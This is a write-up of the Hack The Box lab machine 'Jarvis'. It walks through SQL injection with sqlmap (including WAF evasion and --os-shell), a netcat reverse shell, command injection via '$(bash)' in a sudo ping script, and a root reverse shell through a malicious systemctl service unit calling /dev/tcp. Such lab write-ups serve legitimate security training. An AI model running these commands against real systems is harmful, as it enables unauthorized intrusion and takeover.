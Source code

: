 ```yaml
---
title: "Hack The Box - Jarvis"
tags: [linux,medium,sqli,waf,sqlmap,sudo,systemctl]
categories: HackTheBox-Linux
---
```



![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Jarvis%20Box%208d4fb6b38b1f48cba518d1f55c01338a/Untitled.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Jarvis%20Box%208d4fb6b38b1f48cba518d1f55c01338a/Untitled.png)

## NMAP

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Jarvis%20Box%208d4fb6b38b1f48cba518d1f55c01338a/Untitled%201.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Jarvis%20Box%208d4fb6b38b1f48cba518d1f55c01338a/Untitled%201.png)

## Enumerating Web

→ Found hostname on website :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Jarvis%20Box%208d4fb6b38b1f48cba518d1f55c01338a/Untitled%202.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Jarvis%20Box%208d4fb6b38b1f48cba518d1f55c01338a/Untitled%202.png)

→ Found SQli vulnerable page :

[http://supersecurehotel.htb/room.php?cod=1](http://supersecurehotel.htb/room.php?cod=1)'

→ There's an WAF which bans us for 90seconds for sending too many requests :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Jarvis%20Box%208d4fb6b38b1f48cba518d1f55c01338a/Untitled%203.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Jarvis%20Box%208d4fb6b38b1f48cba518d1f55c01338a/Untitled%203.png)

⇒ Running SQLmap with random-agent to bypass the WAF :

**`sqlmap -r invoke.req --random-agent --batch`**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Jarvis%20Box%208d4fb6b38b1f48cba518d1f55c01338a/Untitled%204.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Jarvis%20Box%208d4fb6b38b1f48cba518d1f55c01338a/Untitled%204.png)

→ Popping an shell using sqlmap :

**`sqlmap -r invoke.req --random-agent --batch --os-shell`**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Jarvis%20Box%208d4fb6b38b1f48cba518d1f55c01338a/Untitled%205.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Jarvis%20Box%208d4fb6b38b1f48cba518d1f55c01338a/Untitled%205.png)

→ Lets get an nc shell :

**`nc -e /bin/sh 10.10.14.4 1234`**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Jarvis%20Box%208d4fb6b38b1f48cba518d1f55c01338a/Untitled%206.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Jarvis%20Box%208d4fb6b38b1f48cba518d1f55c01338a/Untitled%206.png)

## Privilege Escalation to User

→ We have sudo on an script

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Jarvis%20Box%208d4fb6b38b1f48cba518d1f55c01338a/Untitled%207.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Jarvis%20Box%208d4fb6b38b1f48cba518d1f55c01338a/Untitled%207.png)

→ Its an script which takes an ip as input when ran and performs ping on it :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Jarvis%20Box%208d4fb6b38b1f48cba518d1f55c01338a/Untitled%208.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Jarvis%20Box%208d4fb6b38b1f48cba518d1f55c01338a/Untitled%208.png)

→ There are some filters which avoid us to break the command and get rce as pepper :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Jarvis%20Box%208d4fb6b38b1f48cba518d1f55c01338a/Untitled%209.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Jarvis%20Box%208d4fb6b38b1f48cba518d1f55c01338a/Untitled%209.png)

→ The filter is missing the character **`$`**

⇒ Exploiting the script :

→ We'll be doing something like this :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Jarvis%20Box%208d4fb6b38b1f48cba518d1f55c01338a/Untitled%2010.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Jarvis%20Box%208d4fb6b38b1f48cba518d1f55c01338a/Untitled%2010.png)

**`$(bash)`**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Jarvis%20Box%208d4fb6b38b1f48cba518d1f55c01338a/Untitled%2011.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Jarvis%20Box%208d4fb6b38b1f48cba518d1f55c01338a/Untitled%2011.png)

## Privilege Escalation to root

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Jarvis%20Box%208d4fb6b38b1f48cba518d1f55c01338a/Untitled%2012.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Jarvis%20Box%208d4fb6b38b1f48cba518d1f55c01338a/Untitled%2012.png)

⇒ Exploiting systemctl SUID :

→ myserv.service :

```c
[Unit]
Description = Give me a shell

[Service]
Type=Simple
user=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.4/5555 0>&1'

[Install]
WantedBy=multi-user.target
```

**`/bin/systemctl enable /home/pepper/myserv.service`**

**`/bin/systemctl start myserv`**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Jarvis%20Box%208d4fb6b38b1f48cba518d1f55c01338a/Untitled%2013.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Jarvis%20Box%208d4fb6b38b1f48cba518d1f55c01338a/Untitled%2013.png)

